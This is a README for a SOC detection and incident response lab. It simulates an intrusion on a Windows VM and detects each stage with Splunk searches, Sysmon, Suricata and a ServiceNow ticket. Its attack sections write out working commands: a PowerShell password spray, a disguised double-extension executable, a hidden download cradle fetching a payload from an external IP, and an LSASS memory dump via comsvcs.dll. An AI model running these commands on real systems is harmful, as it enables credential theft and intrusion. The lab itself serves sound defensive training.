

# 🛡️ Enterprise SOC & Incident Response Lab: Multi-Stage Threat Detection & Triage

[](https://www.splunk.com/)
[](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
[](https://suricata.io/)
[](https://developer.servicenow.com/)
[](https://attack.mitre.org/)

---

## 📌 Executive Overview
This project delivers a complete enterprise-grade **Security Operations Center (SOC) Detection & Incident Response Simulation**. 

The objective was to simulate a multi-stage cyber intrusion against an enterprise workstation, ingest multi-source telemetry across Host, Endpoint (EDR), and Network (NIDS) layers into **Splunk Enterprise**, conduct detection engineering with custom **SPL correlation searches**, perform Tier 1/Tier 2 incident triage, and manage the incident lifecycle through **ServiceNow Developer PDI** under strict P1-Critical SLAs.

```
       [Adversary Simulation]
   (Password Spray -> Phishing -> PS Cradle -> LSASS Dump -> C2)
                  │
                  ▼
   [Enterprise Telemetry Collection]
   ├── Windows Event Logs (Security 4624/4625)
   ├── Sysmon EDR Telemetry (Event IDs 1, 10, 11)
   └── Suricata Network IDS (eve.json C2 Alerts)
                  │
                  ▼ Log Forwarding (Splunk Universal Forwarder)
   [Splunk Enterprise SIEM]
   ├── Multi-Index Data Pipeline (wineventlog, edr_sysmon, ids_suricata)
   ├── Detection Engineering (SPL Correlation Searches)
   └── Threat Hunting & IoC Extraction
                  │
                  ▼ Automated Escalation
   [ServiceNow ITSM]
   ├── P1 Critical Incident: INC0010942
   ├── Containment (Host Isolation, Credential Revocation)
   └── Formal Post-Incident RCA & Lessons Learned
```

---

## 🏗️ Lab Architecture & Telemetry Pipeline

| Component | Role | Details |
| :--- | :--- | :--- |
| **Physical Host** | SIEM Server | Splunk Enterprise (Web UI: `8000`, Forwarder Ingestion: `9997`) |
| **VMware Target VM** | Endpoint Asset | Windows 10 Enterprise (`192.168.178.128`) - Hostname: `CORP-WORKSTATION01` |
| **Sysmon 64** | Endpoint Telemetry | Modular configuration for deep process, file, and memory tracking |
| **Suricata 7.0** | Network Sensor | Emerging Threats (ET Open) ruleset monitoring NAT traffic (`eve.json`) |
| **Splunk Universal Forwarder** | Ingestion Pipeline | Multi-channel inputs forwarding to dedicated indices |
| **ServiceNow PDI** | Security Ticketing | ITSM Incident Management with SLA tracking and containment logs |

---

## 🗺️ MITRE ATT&CK Kill Chain Mapping



---

## ⚔️ Attack Simulations & SIEM Detections (Search & Reporting)

---

### 🔴 Phase 1: Password Spraying & Brute Force (`MITRE T1110.001`)

**Adversary Action:**  
The adversary executed a multi-user password spray against common accounts. The spray succeeded in discovering valid credentials for the privileged `CORP\finance_svc` account.

```powershell
$users = @("mscott", "bwayne", "dharvey", "finance_svc", "hr_backup", "jsmith", "clark.kent", "administrator")
foreach ($user in $users) {
    for ($i=1; $i -le 3; $i++) {
        net use \\127.0.0.1\IPC$ /user:CORP\$user "WrongPassword123!" 2>$null
        Start-Sleep -Milliseconds 200
    }
}
# Successful authentication
net use \\127.0.0.1\IPC$ /user:CORP\finance_svc "Finance2026!!"
```

| Attack Simulation (PowerShell) | Splunk Detection (Search & Reporting) |
| :---: | :---: |
|  |  |

**Detection SPL:**
```spl
index=wineventlog EventCode=4625 
| stats count by src_ip, TargetUserName 
| where count >= 10
```
> **Detection Insight:** Identifies rapid failed logons across multiple accounts from a single source followed by a sudden `EventCode 4624` (Type 3 network logon).

---

### 🔴 Phase 2: Disguised Phishing Executable (`MITRE T1566.001`)

**Adversary Action:**  
A disguised payload (`Invoice_Q3.pdf.exe`) was dropped into `C:\Users\Public\Downloads` and executed, triggering process creation and initial reconnaissance commands (`whoami`, `ipconfig`).

```powershell
New-Item -Path "C:\Users\Public\Downloads" -ItemType Directory -Force | Out-Null
Copy-Item -Path "$env:SystemRoot\System32\cmd.exe" -Destination "C:\Users\Public\Downloads\Invoice_Q3.pdf.exe" -Force
Start-Process -FilePath "C:\Users\Public\Downloads\Invoice_Q3.pdf.exe" -ArgumentList "/c whoami && ipconfig /all" -Wait
```

| Attack Simulation (PowerShell) | Splunk Sysmon Detection (Search & Reporting) |
| :---: | :---: |
|  |  |

**Detection SPL:**
```spl
index=edr_sysmon (EventCode=1 OR EventCode=11) 
(Image="*.pdf.exe" OR TargetFilename="*.pdf.exe")
| table _time, host, User, Image, CommandLine, TargetFilename
```
> **Detection Insight:** Sysmon Event 11 flags the creation of a double-extension executable in a user-writable path, while Event 1 catches process instantiation.

---

### 🔴 Phase 3: Obfuscated PowerShell Download Cradle (`MITRE T1059.001`)

**Adversary Action:**  
The attacker launched a hidden, non-interactive PowerShell process bypassing execution policies to fetch secondary malware (`update.exe`) from external C2 infrastructure (`185.220.101.5:8080`).

```powershell
powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Command "Invoke-WebRequest -Uri 'http://185.220.101.5:8080/payload.exe' -OutFile 'C:\Users\Public\update.exe' -ErrorAction SilentlyContinue"
```

| Attack Simulation (PowerShell) | Splunk Sysmon Detection (Search & Reporting) |
| :---: | :---: |
|  |  |

**Detection SPL:**
```spl
index=edr_sysmon EventCode=1 Image="*\\powershell.exe" 
(CommandLine="*Invoke-WebRequest*" OR CommandLine="*DownloadString*" OR CommandLine="*-W Hidden*")
| table _time, host, User, ParentImage, CommandLine
```
> **Detection Insight:** Sysmon process telemetry captures the full un-truncated command line including `-W Hidden` and `Invoke-WebRequest`.

---

### 🔴 Phase 4: Suricata C2 Alert & LSASS Memory Dump (`MITRE T1071` & `T1003.001`)

**Adversary Action:**  
1. Outbound C2 beaconing using a known adversary profile (`CobaltStrike/4.5`).
2. Dumping `lsass.exe` memory via `comsvcs.dll` to extract domain credentials.

```powershell
# 1. Trigger Suricata Emerging Threats C2 Rule
curl.exe -H "User-Agent: CobaltStrike/4.5" http://testmyids.com

# 2. LSASS Process Memory Dump via Rundll32
$lsassPid = (Get-Process lsass).Id
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsassPid C:\Users\Public\lsass.dmp full
```

| Attack Simulation (PowerShell) | Splunk Detection (Search & Reporting) |
| :---: | :---: |
|  |  |

| Suricata C2 Trigger | Suricata NIDS Alert in Splunk (`eve.json`) |
| :---: | :---: |
|  |  |

**Detection SPL (LSASS Access):**
```spl
index=edr_sysmon EventCode=10 TargetImage="*\\lsass.exe" GrantedAccess IN ("0x1010", "0x1410", "0x1fffff")
| table _time, host, SourceImage, TargetImage, GrantedAccess, CallTrace
```

**Detection SPL (Suricata NIDS Alerts):**
```spl
index=ids_suricata event_type=alert
| table _time, alert.signature, alert.category, alert.severity, src_ip, dest_ip, dest_port
```

---

## 📈 Multi-Source Kill Chain Correlation Rule

The flagship correlation rule aggregates Windows Event Logs, Sysmon telemetry, and Suricata network alerts to map the complete threat lifecycle into a unified timeline:

```spl
(index=wineventlog EventCode IN (4625, 4624)) OR 
(index=edr_sysmon EventCode IN (1, 10, 11)) OR 
(index=ids_suricata event_type=alert)
| eval Incident_Stage=case(
    EventCode=="4625", "1. Brute Force Attempt (T1110)",
    EventCode=="4624", "2. Successful Authentication",
    (EventCode=="1" OR EventCode=="11") AND (TargetFilename LIKE "%Invoice_Q3%" OR Image LIKE "%Invoice_Q3%"), "3. Spearphishing Attachment Execution (T1566.001)",
    EventCode=="1" AND (CommandLine LIKE "%powershell%" OR CommandLine LIKE "%Invoke-%"), "4. Suspicious PowerShell Cradle (T1059.001)",
    EventCode=="10" AND TargetImage LIKE "%lsass.exe", "5. LSASS Credential Dump (T1003.001)",
    event_type=="alert", "6. Suricata Network IDS C2 Alert (T1071)"
)
| where isnotnull(Incident_Stage)
| table _time, host, Incident_Stage, TargetUserName, Image, CommandLine, TargetFilename, "alert.signature", src_ip, dest_ip
| sort _time
```

| Unified Kill Chain Correlation View |
| :---: |
|  |

---

## 🔍 Indicators of Compromise (IoCs)

| Indicator Type | Observable | Context & Threat Intelligence Result |
| :--- | :--- | :--- |
| **External IPv4** | `185.220.101.5` | AbuseIPDB: **100% Confidence of Abuse** (Malicious C2 / Tor Exit) |
| **Target Host** | `CORP-WORKSTATION01` (`192.168.178.128`) | Compromised Finance Department Workstation |
| **Compromised Account** | `CORP\finance_svc` | Privileged Service Account |
| **Phishing Executable** | `C:\Users\Public\Downloads\Invoice_Q3.pdf.exe` | Double-extension disguised binary |
| **Dropped Payload** | `C:\Users\Public\update.exe` | Staged binary via hidden PowerShell cradle |
| **Credential Dump** | `C:\Users\Public\lsass.dmp` | LSASS memory artifact containing credential hashes |
| **User-Agent String** | `CobaltStrike/4.5` | Adversary Command & Control profile |

---

## 🎫 Incident Response Lifecycle (ServiceNow ITSM)

Incident **`INC0010942`** was escalated directly to Tier 2 Incident Response under **P1 - Critical** severity:

| ServiceNow P1 Incident Ticket | Resolution & SLA Performance |
| :---: | :---: |
|  |  |

### SOC Response Timeline & Containment Actions:
- **`[T+00:00]` Detection:** Splunk Multi-Stage Correlation Search triggers high-fidelity alert.
- **`[T+00:04]` Triage:** Incident `INC0010942` logged in ServiceNow; assigned to SOC L2 Analyst (**Response SLA Met: 4 min / Target: < 15 min**).
- **`[T+00:10]` Threat Intel:** IP `185.220.101.5` confirmed malicious on AbuseIPDB; escalated to P1 Critical.
- **`[T+00:22]` Containment:** Host `CORP-WORKSTATION01` isolated from network via EDR control.
- **`[T+00:28]` Identity Revocation:** Account `CORP\finance_svc` disabled in AD; Kerberos ticket-granting tickets (TGT) revoked.
- **`[T+00:35]` Eradication:** Quarantined and deleted `Invoice_Q3.pdf.exe`, `update.exe`, and `lsass.dmp`.
- **`[T+00:48]` Perimeter Defense:** Firewall rule deployed blocking `185.220.101.5/32` inbound and outbound.
- **`[T+01:15]` Resolution:** Clean endpoint forensic scan completed. Ticket resolved (**Resolution SLA Met: 75 min / Target: < 120 min**).

---

## 📁 Repository Structure

```
├── 📄 README.md                               <-- Showcase portfolio & detection engineering guide
├── 📁 assets/
│   └── 📁 screenshots/                        <-- Visual proof of attacks, SPL queries, and tickets
│       ├── 📁 02_brute_force/
│       ├── 📁 03_phishing/
│       ├── 📁 04_powershell_cradle/
│       ├── 📁 05_lsass_dump/
│       ├── 📁 06_suricata_ids/
│       ├── 📁 07_correlation_dashboard/
│       └── 📁 08_servicenow/
├── 📁 configs/
│   ├── inputs.conf                            <-- Splunk Universal Forwarder configuration
│   ├── sysmonconfig.xml                       <-- Modular Sysmon telemetry profile
│   └── suricata.yaml                          <-- Suricata NIDS eve.json configuration
└── 📁 docs/
    └── INC0010942_Incident_Investigation_Report.md  <-- Formal Root Cause Analysis & IR Report
```

---

## 📖 In-Depth Documentation
For the full post-incident root cause analysis, forensic evidence breakdown, and hardening recommendations, read the formal:  
👉 **[INC0010942 Incident Investigation Report](docs/INC0010942_Incident_Investigation_Report.md)**


For the complete step-by-step instructions on setting up this lab environment, please refer to the detailed guide: 
👉 **[Complete Step-by-Step Lab Setup Guide](docs/soc_lab_master_step_by_step_guide.md)**

